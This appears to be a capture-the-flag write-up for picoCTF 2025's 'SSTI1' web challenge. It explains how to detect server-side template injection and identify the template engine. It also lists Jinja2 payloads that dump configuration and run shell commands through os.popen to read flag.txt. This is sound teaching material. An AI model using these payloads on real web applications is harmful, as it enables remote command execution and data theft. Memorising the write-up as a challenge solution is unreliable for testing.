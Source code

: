 # 🕸️ picoCTF 2025 – Web Exploitation – SSTI1

## 🔎 Challenge Description

We are given a web application that takes user input and reflects it back into a web page. Our task is to determine whether the application is vulnerable to **Server-Side Template Injection (SSTI)** and exploit it to retrieve the flag.

---

## 🛠️ Step 1 – Initial Reconnaissance

1. Open the provided challenge URL in a browser.

2. Observe the input field or query parameter that reflects back user input.

3. Enter a simple string such as:

   
   hello
   

   and confirm that it is reflected in the page.

4. Next, test if template expressions are being rendered. For example:

   
   {{7*7}}
   

   * If the output is 49 instead of {{7*7}}, then the application is **processing template expressions** → possible SSTI.

---

## 🛠️ Step 2 – Identifying the Template Engine

Different template engines have slightly different syntax. Common detection payloads:

* Jinja2 (Python Flask/Django): {{7*7}}
* Twig (PHP): {{7*7}}
* Smarty (PHP): {$smarty.version}
* ERB (Ruby): <%= 7*7 %>

For picoCTF, challenges usually use **Flask/Jinja2** → so payloads like {{7*7}} will work.

---

## 🛠️ Step 3 – Exploitation

Once confirmed, we attempt to **read sensitive data** through SSTI.

### 🔹 Useful Payloads:

1. **Arithmetic test (confirm SSTI):**

   
   {{7*7}}
   

   → Output: 49

2. **Access configuration/environment variables:**

   
   {{config}}
   

   or

   
   {{request.application.__globals__.__builtins__}}
   

3. **Read the flag (common in CTFs):**

   
   {{self.__init__.__globals__['os'].popen('cat flag.txt').read()}}
   

   or

   
   {{cycler.__init__.__globals__.os.popen("cat /flag.txt").read()}}
   

   ⚠️ The exact payload depends on how the backend is sandboxed. Most picoCTF SSTI challenges allow a direct payload to read /flag.txt.

---

## 🛠️ Step 4 – Extracting the Flag

* Once a working payload is injected, the flag will be displayed on the page.
* Copy it and submit to picoCTF. ✅

---

## 📌 Key Learning Points

* SSTI occurs when **user input is unsafely evaluated** in a template engine.
* Testing with arithmetic expressions like {{7*7}} quickly confirms SSTI.
* Exploitation often involves breaking out into Python’s os or similar libraries to read files.
* In CTFs, the target file is usually flag.txt or /flag.txt.

---

## 🏁 Final Answer Format


picoCTF{<captured_flag>}
